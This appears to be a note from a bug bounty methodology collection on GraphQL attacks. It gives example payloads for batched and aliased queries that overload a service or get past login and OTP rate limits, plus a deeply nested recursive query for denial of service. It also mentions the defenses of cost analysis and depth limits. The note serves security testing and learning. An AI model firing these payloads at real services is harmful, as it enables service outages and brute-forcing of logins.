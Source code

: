 
## Batch Query Attacks

GraphQL supports Request Batching. Batched requests are processed one after the other by GraphQL, which makes it a good candidate for Denial of Service attacks, as well as other attacks such as Brute Force and Enumeration.
If a resource intensive GraphQL query is identified, an attacker may leverage batch processing to call the query and potentially overwhelm the service for a prolonged period of time.
```
query {
  t1:systemUpdate
  t2:systemUpdate
  t3:systemUpdate
  t4:systemUpdate
}
```
Or bypass rate limiting on Login, OTP...
```
query isValidDiscount($code: Int) {
    isvalidDiscount(code:$code){
        valid
    }
    isValidDiscount2:isValidDiscount(code:$code){
        valid
    }
    isValidDiscount3:isValidDiscount(code:$code){
        valid
    }
}
```
> [!NOTE]
> if Cost Query Analysis is enabled, it should prevent running batched queries.



## Denial of Service :: Deep Recursion Query Attack
If The application offers two types, which reference eachother (Type1 has Type2, and Type2 has Type1), it recursive query to be executed successfully.

![Example](https://github.com/0xGLSS/Bug-Bounty-Methodology/assets/85647797/cc9686ca-662c-4327-95c6-e2e47ceca255)

```
query {
  pastes {
    owner {
      pastes {
        owner {
          pastes {
            owner {
              pastes {
                owner {
                  pastes {
                    owner {
                      pastes {
                        owner {
                          name
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```
> [!NOTE]
> if a depth check is implemented it should prevent malicious queries from going through.

## (GraphQL CSRF)[https://portswigger.net/web-security/graphql#graphql-csrf]

6. 

## Ideas:
- Send same reset password token to 2 emails (similar to race condition) using GraphQL Batching attack

## Refrences
- [Bypassing rate limiting using Aliases](https://portswigger.net/web-security/graphql#bypassing-rate-limiting-using-aliases)
- [GraphQL Batching attack](https://lab.wallarm.com/graphql-batching-attack/)
